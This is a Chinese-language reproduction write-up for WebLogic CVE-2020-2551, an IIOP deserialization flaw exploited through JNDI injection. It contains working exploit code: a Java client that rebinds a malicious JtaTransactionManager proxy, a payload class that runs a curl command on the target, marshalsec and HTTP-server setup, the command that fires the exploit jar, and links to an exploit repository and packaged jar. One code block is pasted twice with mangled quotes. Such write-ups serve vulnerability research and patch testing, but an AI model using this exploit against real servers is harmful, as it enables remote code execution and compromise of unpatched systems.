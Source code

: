 ```yaml
---
title: （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce
id: zhfly3232
---
```


## （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

```
Hashtable<String, String> env = new Hashtable<String, String>();
// add wlsserver/server/lib/weblogic.jar to classpath,else will error.
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", rhost);
Context context = new InitialContext(env);
// get Object to Deserialize
JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
jtaTransactionManager.setUserTransactionName(rmiurl);

Remote remote = createMemoitizedProxy(createMap(“pwned”+System.nanoTime(), jtaTransactionManager), Remote.class);

context.rebind(“Y4er”+System.nanoTime(), remote);

Hashtable<String, String> env = new Hashtable<String, String>();

// add wlsserver/server/lib/weblogic.jar to classpath,else will error.

env.put(“java.naming.factory.initial”, “weblogic.jndi.WLInitialContextFactory”);

env.put(“java.naming.provider.url”, rhost);

Context context = new InitialContext(env);

// get Object to Deserialize

JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();

jtaTransactionManager.setUserTransactionName(rmiurl); `Remote remote = createMemoitizedProxy(createMap(“pwned”+System.nanoTime(), jtaTransactionManager), Remote.class);

context.rebind(“Y4er”+System.nanoTime(), remote);` 
```

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**

![image](../img/f73098524f05b9a3ff5c62871ce50bfa.png)

此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**

![image](../img/414644d260db3536c82470679ebe11fa.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![image](../img/ca009db82c573b15efb63378e8a66311.png)

然后通过反射调用**JtaTransactionManager**的**readObject()**跟进

![image](../img/6075b5415a210f73bebdde963a2d4087.png)

到此之后就是Weblogic的CVE-2018-3191 spring JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**

![image](../img/55a8889af4b846ab78d98414e7f4da36.png)

如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进

![image](../img/4a140f4c1b605bb300e5ece452bd3ac8.png)

此时**lookup()**参数可控

![image](../img/219d75ca4a0ecc57dd787763208619c2.png)

**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

```
https://github.com/ianxtianxt/CVE-2020-2551 
```

**打包好的jar包**

```
https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip 
```

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

```
package payload;

import java.io.IOException;

public class exp {

```
public exp() {
    String cmd = "curl http://172.16.1.1/success";
    try {
        Runtime.getRuntime().exec(cmd).getInputStream();
    } catch (IOException e) {
        e.printStackTrace();
    }
} 
```

} 
```

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

```
python -m http.server --bind 0.0.0.0 80 
```

命令行运行jar包

```
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp 
```

实际效果如图

![image](../img/5e83197b8d64239528803db49418b727.png)

## 参考链接

> https://y4er.com/post/weblogic-cve-2020-2551/